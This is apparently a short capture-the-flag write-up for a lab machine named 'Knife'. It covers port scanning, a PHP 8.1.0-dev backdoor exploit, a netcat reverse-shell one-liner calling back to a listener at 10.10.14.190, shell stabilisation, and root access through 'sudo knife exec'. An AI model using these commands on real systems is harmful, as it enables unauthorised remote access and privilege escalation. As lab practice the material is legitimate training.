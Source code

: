 # Knife

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial `


### Open ports

```
22
80
```

## Users

```
james
```

## Endpoints


## Vuln

* Server uses php8.1.0-dev [https://www.exploit-db.com/exploits/49933]
* Got shell with exploit and got to user `james`
* revshell using `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.190 1234 >/tmp/f` [in client box], `nc -l -p 1234` [in my box]
* update to interactive shell using `python3 -c 'import pty; pty.spawn("/bin/bash");'` [in client box], then Ctrl + Z , `stty raw -echo` and `fg` then in the client machine `export TERM=xterm`

* doing `sudo -l` we can run `knife binary` with sudo privileges, so doing `sudo knife exec -E 'exec "/bin/sh"'` got root